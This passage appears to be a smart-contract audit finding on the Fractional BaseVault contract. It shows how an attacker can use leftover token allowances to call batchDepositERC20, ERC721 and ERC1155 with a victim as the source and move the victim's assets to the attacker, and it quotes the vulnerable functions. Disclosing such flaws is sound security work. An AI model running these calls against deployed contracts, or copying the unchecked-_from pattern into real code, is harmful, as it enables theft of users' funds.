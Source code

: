 Alice decided to deposit `50` XYZ ERC20 tokens, APE #1 ERC721 NFT, and `50` ABC tokens to the vault by calling `baseVault.batchDepositERC20`, `baseVault.batchDepositERC721`, and `baseVault.batchDepositERC1155` as shown below:

```solidity
baseVault.batchDepositERC20(alice.addr, vault, [XYZ.addr], [50])
baseVault.batchDepositERC721(alice.addr, vault, [APE.addr], [#1])
baseVault.batchDepositERC1155(alice.addr, vault, [ABC.addr], [#1], [50], "")
```

An attacker notices that there is residual allowance left on the `baseVault`, thus the attacker executes the following transactions to steal Alice's assets and send them to the attacker's wallet address.

```solidity
baseVault.batchDepositERC20(alice.addr, attacker.addr, [XYZ.addr], [950])
baseVault.batchDepositERC721(alice.addr, attacker.addr, [APE.addr, APE.addr], [#2, #3])
baseVault.batchDepositERC1155(alice.addr, attacker.addr, [ABC.addr], [#1], [950], "")
```

<https://github.com/code-423n4/2022-07-fractional/blob/8f2697ae727c60c93ea47276f8fa128369abfe51/src/modules/protoforms/BaseVault.sol#L58>

```solidity
function batchDepositERC20(
    address _from,
    address _to,
    address[] calldata _tokens,
    uint256[] calldata _amounts
) external {
    for (uint256 i = 0; i < _tokens.length; ) {
        IERC20(_tokens[i]).transferFrom(_from, _to, _amounts[i]);
        unchecked {
            ++i;
        }
    }
}
```

<https://github.com/code-423n4/2022-07-fractional/blob/8f2697ae727c60c93ea47276f8fa128369abfe51/src/modules/protoforms/BaseVault.sol#L77>

```solidity
function batchDepositERC721(
    address _from,
    address _to,
    address[] calldata _tokens,
    uint256[] calldata _ids
) external {
    for (uint256 i = 0; i < _tokens.length; ) {
        IERC721(_tokens[i]).safeTransferFrom(_from, _to, _ids[i]);
        unchecked {
            ++i;
        }
    }
}
```
